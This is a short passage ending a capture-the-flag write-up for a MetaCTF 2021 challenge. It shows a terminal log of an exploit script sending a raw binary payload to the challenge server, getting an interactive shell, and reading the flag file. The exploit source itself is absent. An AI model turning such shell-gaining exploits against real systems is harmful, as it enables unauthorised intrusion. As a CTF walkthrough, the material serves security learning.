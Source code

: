 ```
```
And here is the result against the live target:
```
knittingirl@piglet:~/CTF/metaCTF21$ python3 little_payload.py 
[+] Opening connection to host1.metaproblems.com on port 5460: Done
b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 @\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\x10@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x003\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
$ ls
flag.txt
little
little.sh
$ cat flag.txt
MetaCTF{5i9nAL5_3v3rYwH3r3}
```
Thanks for reading!
